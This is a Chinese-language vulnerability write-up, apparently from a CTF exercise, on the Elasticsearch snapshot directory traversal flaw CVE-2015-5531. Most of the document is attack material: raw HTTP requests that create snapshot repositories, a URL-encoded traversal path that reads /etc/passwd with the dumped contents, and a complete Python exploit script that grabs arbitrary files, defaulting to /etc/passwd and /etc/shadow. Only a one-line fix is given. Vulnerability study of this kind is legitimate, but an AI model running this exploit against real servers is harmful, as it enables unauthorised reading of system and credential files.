

# Elasticsearch目录遍历漏洞（CVE-2015-5531）


## 1.&emsp;漏洞描述

- 漏洞描述：elasticsearch 1.5.1及以前，无需任何配置即可触发该漏洞。之后的新版，配置文件elasticsearch.yml中必须存在`path.repo`，该配置值为一个目录，且该目录必须可写，等于限制了备份仓库的根位置。不配置该值，默认不启动这个功能。
- 漏洞编号：CVE-2015-5531
- 漏洞等级：中危
- 影响版本：ElasticSearch 1.0.0 – 1.6.0

## 2.   漏洞简介

### 2.1 **elasticsearch 简介**

**Elasticsearch是荷兰Elasticsearch公司的一套基于全文搜索引擎Apache Lucene构建的开源分布式RESTful搜索引擎，它主要用于云计算中，并支持通过HTTP使用JSON进行数据索引。**

Elasticsearch使用Lucene作为内部引擎，在其基础上封装了功能强大的RESTful API，让你不需要了解背后复杂的逻辑，即可完成搜索……

## 3.&emsp;漏洞分析

### 3.1  漏洞复现

先说说elasticsearch 的备份与快照功能

漏洞利用需要涉及到elasticsearch的备份功能，elasticsearch 提供了一套强大的API，使得elasticsearch备份非常简单

要实现备份功能。前提是elasticsearch 进程对备份目录有写入权限，一般来说我们可以利用/tmp 或者elasticsearch 自身的安装目录，默认情况下这两个目录elasticsearch 进程都是有写入权限的

**1. 新建一个仓库**

备份数据之前，要创建一个仓库来保存数据，仓库的类型支持Shared filesystem, Amazon S3, HDFS和Azure Cloud。下面以文件系统为例：

```http
PUT /_snapshot/test HTTP/1.1
Host: 218.2.197.232:28574
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
Content-Length: 108

{
    "type": "fs",
    "settings": {
        "location": "/usr/share/elasticsearch/repo/test"
    }
}
```


**2. 创建一个快照**

```http
PUT /_snapshot/test2 HTTP/1.1
Host: 218.2.197.232:27519
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
Content-Length: 130

{
    "type": "fs",
    "settings": {
        "location": "/usr/share/elasticsearch/repo/test/snapshot-backdata"
    }
}

```


**3. 目录穿越读取任意文件**

直接访问url`http://218.2.197.232:20724/_snapshot/test/backdata%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd`



将报错信息中的ascill码转换成字符即可看到相应内容：

```shell
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
flag=xctf{301015992d49af116da2b40698484ef3}
```

## 4.&emsp;漏洞POC

```python
#!/usr/bin/env python
# -*- coding:utf8 -*-
"""
PoC for CVE-2015-5531
Affects ElasticSearch 1.6.0 and prior
"""
import re
import requests
import urllib
import argparse
import traceback
import termcolor


def colorize_red(string):
    """
    :param string:
    :return
    """
    return termcolor.colored(string, 'red')


def colorize_green(string):
    """
    :param string:
    :return:
    """
    return termcolor.colored(string, 'green')


def create_repos(base_url):
    """
    :param base_url:
    :return: None
    """
    for index, repo_name in enumerate(REPO_NAME_LST):

        url = "{0}{1}".format(base_url, repo_name)
        req = requests.post(url, json=DATA_REPO_LST[index])

        if "acknowledged" in req.json():
            print colorize_green("repository {0}: create success".format(repo_name))


def grab_file(vuln_url):
    """
    :param xplurl:
    :return:
    """

    req = requests.get(vuln_url)
    if req.status_code == 400:
        data = req.json()
        extrdata = re.findall(r'\d+', str(data['error']))
        decoder = bytearray()
        for i in extrdata[2:]:
            decoder.append(int(i))
        print colorize_green(decoder)


def exploit(**args):
    """
    :param args:
    :return:
    """
    target = args['target']
    port = args['port']
    fpath = args['fpath'].split(',')
    fpath = [urllib.quote(fp, safe='') for fp in fpath]
    base_url = "http://{0}:{1}/_snapshot/".format(target, port)
    create_repos(base_url)
    for fp in fpath:
        vuln_url = '{0}{1}/{2}{3}'.format(base_url, REPO_NAME_LST[0], FCK, fp)
        print colorize_red(urllib.unquote(fp)) + ":\n"
        grab_file(vuln_url)


if __name__ == "__main__":
    # for global
    FCK = 'backdata%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..'
    REPO_NAME_LST = ['test11', 'test12']

    DATA_REPO_LST = [{"type": "fs", "settings": {"location": "/usr/share/elasticsearch/repo/test30"}},
                     {"type": "fs", "settings": {"location": "/usr/share/elasticsearch/repo/test30/snapshot-backdata"}}]
    parser = argparse.ArgumentParser(usage="python cve-2015-5531.py options",
                                     description="cve-2015-5531 Vuln PoC", add_help=True)
    parser.add_argument('-t', '-target', metavar='TARGET', type=str, dest="target", required=True, help='eg: 127.0.0.1 or www.baidu.com')

    parser.add_argument('-p', '-port', metavar='PORT', dest='port',
    type=int, default=9200, help='elasticsearch port default 9200')

    parser.add_argument('-fpath', metavar='FPATH', dest='fpath', type=str,
    default='/etc/passwd,/etc/shadow', help='file to grab multi files separated by comma ')
    args = parser.parse_args()
    try:
        exploit(**args.__dict__)
    except:
        traceback.print_exc()

```

**Example：**`python poc.py -t your_ip -p your_port -fpath /etc/passwd`

## 5.&emsp;修复方案

升级ElasticSearch 版本到1.6.0以上版本。
